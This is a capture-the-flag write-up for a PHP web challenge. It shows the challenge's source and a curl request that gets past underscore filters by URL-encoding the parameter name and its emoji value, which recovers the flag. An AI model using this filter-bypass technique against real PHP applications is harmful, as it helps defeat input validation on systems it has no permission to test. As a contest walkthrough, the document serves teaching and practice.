 # `\'_'/`
Web

## Challenge 

	DESCRIPTION
	\'_'/

	http://가나다라마바사아자차카타파하.cddc19q.ctf.sg/

	ATTACHED FILES
	None

## Solution

We see the source code on the website

    <?php
    show_source(__FILE__);

    include_once("flag.php");

    if( strpos($_SERVER["QUERY_STRING"], '_') != false )
            exit("\'_'/");

    if( stripos($_SERVER["QUERY_STRING"], '_') != false )
            exit("\'_'/");

    if( strrpos($_SERVER["QUERY_STRING"], '_') != false )
            exit("\'_'/");

    if( strripos($_SERVER["QUERY_STRING"], '_') != false )
            exit("\'_'/");

    if( strstr($_SERVER["QUERY_STRING"], '_') != false )
            exit("\'_'/");

    if( strpbrk($_SERVER["QUERY_STRING"], '_') != false )
            exit("\'_'/");

    if( preg_match("/[a-z][0-9._]/", $_SERVER["QUERY_STRING"]) )
            exit("\'_'/");

    if( preg_match("/ABCDEFGHIJKLMNOPQRSTUVWXYZ/", $_SERVER["QUERY_STRING"]) )
            exit("\'_'/");

    if( isset($_GET["_1234567890-ABCDEFGHIJKLMNOPQRSTUVWXYZ-qwertyuiopasdfghjklzxcvbnm_"]) ) {
            if( $_GET['_1234567890-ABCDEFGHIJKLMNOPQRSTUVWXYZ-qwertyuiopasdfghjklzxcvbnm_'] == "🚣‍♀️ 🚣🏻‍♀️ 🚣🏼‍♀️ 🚣🏽‍♀️ 🚣🏾‍♀️ 🚣🏿‍♀️ 🚣‍♂️ 🚣🏻‍♂️ 🚣🏼‍♂️ 🚣🏽‍♂️ 🚣🏾‍♂️ 🚣🏿‍♂️" )
                    echo $FLAG;
    }
    ?>

We need to make the following get request

    Parameter: _1234567890-ABCDEFGHIJKLMNOPQRSTUVWXYZ-qwertyuiopasdfghjklzxcvbnm_
    Value: 🚣‍♀️ 🚣🏻‍♀️ 🚣🏼‍♀️ 🚣🏽‍♀️ 🚣🏾‍♀️ 🚣🏿‍♀️ 🚣‍♂️ 🚣🏻‍♂️ 🚣🏼‍♂️ 🚣🏽‍♂️ 🚣🏾‍♂️ 🚣🏿‍♂️

However, there are many if statements which prevent our parameter from going through.

I found a good reference for PHP tricks. 

- https://github.com/w181496/Web-CTF-Cheatsheet#php-tag
- https://brownfly.github.io/2019/02/15/Hgame2019%20Web%20WriteUp/

Here's an example of URL decoding

    Example:
    Request: http://kaibro.tw/test.php?url=%67%67
    $_GET: [url] => gg
    $_SERVER['REQUEST_URI']: /test.php?url=%67%67
    $_SERVER['QUERY_STRING']: url=%67%67

Hence, if we were to encode everything, then we can bypass the checks.

In Chrome or any modern browser, the browser automatically decodes it for us before sending the request, hence we must do it through CURL.

We are provided with a URL with Unicode. We need to convert it to ASCII URL so that we can use in CURL.

    http://가나다라마바사아자차카타파하.cddc19q.ctf.sg/

In Chrome, I went into developer tools and viewed the page request. This gave me the ASCII URL.

    http://xn--o39a40go4bowh99c2uehzk2qjhlf9xn2kgvthokihti.cddc19q.ctf.sg/

Next, I encoded the parameter by converting to hex and then adding the percent symbols.

    Original: _1234567890-ABCDEFGHIJKLMNOPQRSTUVWXYZ-qwertyuiopasdfghjklzxcvbnm_
    Hex Encoded: 5f313233343536373839302d4142434445464748494a4b4c4d4e4f505152535455565758595a2d71776572747975696f706173646667686a6b6c7a786376626e6d5f
    URL Encoded: %5f%31%32%33%34%35%36%37%38%39%30%2d%41%42%43%44%45%46%47%48%49%4a%4b%4c%4d%4e%4f%50%51%52%53%54%55%56%57%58%59%5a%2d%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%5f

And since in CURL, we can't use Unicode, I had to convert the Emojis into URL encoding too. We can do [this in CyberChef](https://gchq.github.io/CyberChef/).

    Original: 🚣‍♀️ 🚣🏻‍♀️ 🚣🏼‍♀️ 🚣🏽‍♀️ 🚣🏾‍♀️ 🚣🏿‍♀️ 🚣‍♂️ 🚣🏻‍♂️ 🚣🏼‍♂️ 🚣🏽‍♂️ 🚣🏾‍♂️ 🚣🏿‍♂️
    URL Encoded: %F0%9F%9A%A3%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BB%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BC%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BD%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BE%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BF%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BB%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BC%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BD%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BE%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BF%E2%80%8D%E2%99%82%EF%B8%8F

Now we get the CURL request as follows.

    $ curl "http://xn--o39a40go4bowh99c2uehzk2qjhlf9xn2kgvthokihti.cddc19q.ctf.sg/?%5f%31%32%33%34%35%36%37%38%39%30%2d%41%42%43%44%45%46%47%48%49%4a%4b%4c%4d%4e%4f%50%51%52%53%54%55%56%57%58%59%5a%2d%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%5f=%F0%9F%9A%A3%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BB%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BC%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BD%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BE%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BF%E2%80%8D%E2%99%80%EF%B8%8F%20%F0%9F%9A%A3%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BB%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BC%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BD%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BE%E2%80%8D%E2%99%82%EF%B8%8F%20%F0%9F%9A%A3%F0%9F%8F%BF%E2%80%8D%E2%99%82%EF%B8%8F"

## Flag

    $CDDC19${PHP_tricks_are_very_fun!}
